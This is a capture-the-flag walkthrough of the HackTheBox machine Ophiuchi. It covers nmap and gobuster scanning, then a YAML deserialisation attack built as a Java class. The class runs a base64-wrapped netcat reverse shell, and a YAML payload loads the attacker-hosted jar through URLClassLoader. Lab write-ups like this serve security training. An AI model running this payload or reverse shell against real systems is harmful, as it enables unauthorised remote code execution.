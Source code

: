 ```yaml
---
title: Ophiuchi
layout: post
author: Bit Criminals Team
date: 2021-06-20 13:35:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://app.hackthebox.eu/machines/Ophiuchi
---
```


First, connect to HackTheBox using OpenVPN and join the machine.  
  
**NOTE: Replace $MACHINE_IP with HTB's machine IP and $tun0_IP with your machine's tun0 IP**  
  
As usual, after connecting and getting the IP, the first thing we did was an nmap scan:  
```bash
nmap -Pn -A $MACHINE_IP
```
Here are the results:

![](/images/v1per/ophiuchi1.png)

We see that we have port 22 and port 8080 open. Let's visit the website: **http://$MACHINE_IP:8080/**  
This is what we get:

![](/images/v1per/ophiuchi2.png)

So, this probably has some vulnerability related to YAML.  
Still, let's once check the hidden directories using gobuster:
```bash
gobuster dir -u http://$MACHINE_IP:8080 -w /usr/share/wordlists/dirb/common.txt -z -t 100
```
These are the results:

![](/images/v1per/ophiuchi3.png)

Two directories from the result are password-protected and we didn't really find much other than that. Let's focus on YAML for now.  
I searched the internet for "YAML Payloads" and found [this](https://github.com/artsploit/yaml-payload). Clone this repository in a subitable localtion and open the file **yaml-payload/src/artsploit/AwesomeScriptEngineFactory.java**  
Now, I found [this site](https://pulsesecurity.co.nz/advisories/Insecure-YAML-Deserialisation).  
With this site as reference, I edited the **AwesomeScriptEngineFactory.java** to this for reverse shell:
```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;
import java.util.Base64;
import java.util.concurrent.TimeUnit;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
           
		String cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $tun0_IP 1234 >/tmp/f";

		String b64Cmd = Base64.getEncoder().encodeToString(cmd.getBytes());
		cmd = "bash -c {echo,"+b64Cmd+"}|{base64,-d}|{bash,-i}";

		Runtime.getRuntime()
			.exec(cmd)
			.waitFor(30, TimeUnit.SECONDS);
				
        } catch (IOException | InterruptedException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
``` 
Now, go to the **yaml-payload** directory and run these two commands:
```bash
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```
In this folder, start a python simple http server using this command:
```bash
python3 -m http.server 80
```
and, start a netcat listener on your machine:
```bash
nc -lnvp 1234
```
Then, I copied this in the YAML text box in the website
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://$tun0_IP/yaml-payload.jar"]
  ]]
]
```
Click on **PARSE**, and check the listener.

![](/images/v1per/ophiuchi4.png)

Yay! We have got our shell.